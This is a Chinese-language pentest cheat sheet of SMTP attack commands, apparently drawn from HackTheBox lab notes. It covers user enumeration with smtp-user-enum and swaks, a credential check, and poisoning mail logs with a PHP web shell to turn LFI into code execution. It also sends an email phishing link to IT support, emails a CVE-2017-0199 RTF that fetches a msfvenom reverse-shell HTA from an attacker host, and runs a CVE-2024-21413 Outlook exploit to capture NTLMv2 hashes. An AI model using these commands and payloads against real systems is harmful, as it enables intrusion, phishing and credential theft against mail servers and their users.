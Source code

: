 @SMTP（Simple Mail Transfer Protocol） , 用于发送电子邮件的标准协议之一 , 默认端口。

```
nc <IP> 25
```

```
HELO xxx
MAIL FROM: <xx@xx>
RCPT TO: <xx@xx>
```

```
VRFY <USER> 
查看是否存在当前用户
```

![](photos/Pasted%20image%2020231231170531.png)

###### sendEmail （命令行发邮件工具）
```bash
sendEmail -f 发件人邮箱地址 -t 收件人邮箱地址 -s SMTP服务器地址[:端口] -u 邮件主题 -m 邮件正文 -a 附件 [-v (详细输出)]
```

###### swaks  (常用于远程点击 http 链接 / 拿凭据信息)
```bash
swaks --to itsupport@outdated.htb --from "xekoner@gmail.com" --header "Subject: Internal web app" --body "http://10.10.14.11/" --server <IP>
```

```bash
nc -lvvp 80
swaks --to $(cat email | tr '\n' ',' | less) --from "xekoner@gmail.com" --header "Subject: Internal web app" --body "http://10.10.14.11/" --server 10.129.2.28
```

**凭据验证**
```bash
swaks -server mailing.htb --auth LOGIN --auth-user administrator@mailing.htb --auth-password homenetworkingadministrator --quit-after AUTH
```

###### ENUM USERS
- smtp-user-enum
```
perl smtp-user-enum-master/smtp-user-enum.pl -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.55.8
```
	
```
smtp-user-enum -M VRFY/EXPN/RCPT/ -U/u root/user.list -t 192.168.55.101
smtp-user-enum -M EXPN -t 192.168.0.101 -u <?phpsystem('id');?>
```

***
**25+80 组合开放， 80有 LFI ，可以尝试**
SMTP 日志文件位置：
```
../../../../../../../../../var/log/mail
```

SMTP 日志，发送一句话木马:
```
helo root  #标识用户身份
mail from: "root <?php echo shell_exec($_GET['cmd']); ?>"    # 发件人，一句话木马 
rcpt to:root  #收件人
```
访问 ： xxxxxx&cmd=whoami
***

##### RCE Exp **CVE-2017-0199**    >[0x20 Reel (邮件发送rtf文件拿shell,Bloodhound,枚举)](../../0x0B%20HackTheBox%20WP/靶机推荐第五组%2081-120暨内⽹和域渗透学习路径/0x20%20Reel%20(邮件发送rtf文件拿shell,Bloodhound,枚举).md)<

- 建立反向 shell 利用文件
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.39 LPORT=2233 -f hta-psh -o msfv.hta (生成hta文件的reverse shell)
```

- 创建 rtf 文件
https://github.com/bhdresh/CVE-2017-0199
```bash
└─$ python2 cve-2017-0199_toolkit.py -M gen -t RTF -w Invoice.rtf -u http://10.10.14.39/msfv.hta -x 0
```
`-M gen` 生成文档
`-w Invoice.rtf` 输出文件名
`-u http://10.10.14.39/msfv.hta` URL
`-t RTF` 指定创建 rtf 类型文档
`-x 0` 禁用 rtf 混淆

- 生成 Invoice.rtf 后，使用邮件发送：
```bash
sendEmail -f xekOnerR@gmail.com -t nico@megabank.com -s 10.129.228.182:25 -u 'Hello,Sir' -m 'Nothing Here,LOL' -a Invoice.rtf -v
```


##### 发送邮件得到 NTLMv2响应
https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability
（需要凭据信息）
```bash
python CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender qwe@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.17\qwe" --subject "QWE"
```




# 提权枚举

[+] Linpeas.sh 中的 `Searching installed mail applications` , `Mails (limit 50)`

如果本机开放了25端口，可以直接 nc 链接 `nc 127.0.0.1 25` 然后等待，查看版本信息，搜索 exp
```bash
www-data@plum:/var/www/html$ nc 127.0.0.1 25
nc 127.0.0.1 25
220 localhost |ESMTP Exim 4.94.2| Sun, 30 Jun 2024 03:21:36 -0400
```

- exim
手工枚举邮件文件路径：
```
/var/spool/exim4/
/var/log/exim4/
/var/mail/
/var/spool/mail/
```